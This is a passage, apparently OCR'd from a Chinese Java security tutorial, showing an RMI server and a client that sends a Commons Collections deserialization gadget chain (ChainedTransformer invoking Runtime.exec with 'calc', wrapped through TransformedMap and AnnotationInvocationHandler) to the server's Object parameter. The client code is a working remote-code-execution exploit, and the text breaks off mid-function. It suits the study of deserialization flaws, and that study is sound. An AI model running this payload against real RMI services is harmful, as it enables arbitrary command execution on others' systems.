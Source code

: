 ```
        public String name(String name) throws RemoteException{
            return name;
        }
        public void say(String say) throws  RemoteException{
            System.out.println("you speak" + say);
        }
        public void Example(Object example) throws  RemoteException{
            System.out.println("This is " + example);
        }
    }

    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("RMI server is running");
    }
}
```

客户端

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMIunser.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.Example(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
```